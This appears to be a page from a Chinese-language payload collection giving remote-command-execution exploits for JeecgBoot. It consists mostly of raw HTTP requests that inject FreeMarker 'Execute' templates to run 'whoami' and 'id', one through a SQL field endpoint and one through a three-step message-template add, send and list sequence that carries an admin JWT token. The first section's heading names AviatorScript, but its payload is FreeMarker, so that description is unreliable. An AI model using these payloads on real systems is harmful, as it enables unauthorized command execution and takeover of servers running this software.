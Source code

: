 ## JeecgBoot AviatorScript表达式注入  
```
积木报表软件存在AviatorScript代码注入RCE漏洞。使用接口/jmreport/save处在text中写入AviatorScript表达式。访问/jmreport/show触发AviatorScript解析从而导致命令执行。
POST /jeecg-boot/jmreport/queryFieldBySql?previousPage=xxx&jmLink=YWFhfHxiYmI=&token=123 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Content-Type: application/json
Content-Length: 108
{"sql":"select 'result:<#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ex(\"whoami \") }'" 
}
```  
  
## jeecg-boot后台/sysMessageTemplate/sendMsg接口freemaker模板注入  
```
jeecg-boot的Freemarker模板注入导致远程命令执行, 远程攻击者可利用该漏洞调用在系统上执行任意命令。
1、添加一个测试模板
POST /jeecg-boot/sys/message/sysMessageTemplate/add HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
X-Access-Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MzYyMTcyNDQsInVzZXJuYW1lIjoiYWRtaW4ifQ.-Z6FINUMTWQkOR6u009cde9BFyb-l65VWRhUXDz_2ao
Tenant-Id: 0
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site
Priority: u=0
Te: trailers
Connection: close
Content-Type: application/json;charset=UTF-8
Content-Length: 141
{"templateType":"1","templateCode":"5","templateName":"test111","templateContent":"${\"freemarker.template.utility.Execute\"?new()(\"id\")}"}
2、发送模板
POST /jeecg-boot/sys/message/sysMessageTemplate/sendMsg HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
X-Access-Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MzYyMTcyNDQsInVzZXJuYW1lIjoiYWRtaW4ifQ.-Z6FINUMTWQkOR6u009cde9BFyb-l65VWRhUXDz_2ao
Tenant-Id: 0
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site
Priority: u=0
Te: trailers
Connection: close
Content-Type: application/json;charset=UTF-8
Content-Length: 64
{"templateCode":"5","testData":"{}","receiver":"","msgType":"1"}
3、执行模板并查看返回结果
GET /jeecg-boot/sys/message/sysMessage/list?_t=1732776144&column=createTime&order=desc&field=id,,,esTitle,esContent,esReceiver,esSendNum,esSendStatus_dictText,esSendTime,esType_dictText,action&pageNo=1&pageSize=10 HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:133.0) Gecko/20100101 Firefox/133.0
```